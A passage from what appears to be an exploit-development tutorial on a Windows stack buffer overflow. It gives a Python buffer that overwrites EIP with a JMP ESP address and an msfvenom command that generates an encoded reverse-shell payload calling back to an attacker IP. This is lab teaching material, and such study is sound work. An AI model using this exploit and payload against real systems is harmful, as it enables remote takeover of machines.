 ```python
filler = "A" * 780
eip = "\x83\x0c\x09\x10"
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

inputBuffer = filler + eip + offset + buffer
```

The script: [jmp_esp.py](./Scripts/Chapter11/jmp_esp.py)

Place a breakpoint at the JMP ESP instruction address and then run the script

![](./img/Chapter11/21.png)

Our debugger shows that we did in fact reach our JMP ESP and hit the breakpoint we previously set.

### **2.7 Generating Shellcode with Metasploit**

Use msfvenom to generate shellcode

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.190.133 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

- `-p`: Specify the payload to use
- `LHOST`: Specify the IP address of the attacker
- `LPORT`: Specify the port to connect back to
- `-f`: Specify the output format
- `-e`: Specify the encoder to use
- `-b`: Specify the characters to avoid

![](./img/Chapter11/22.png)

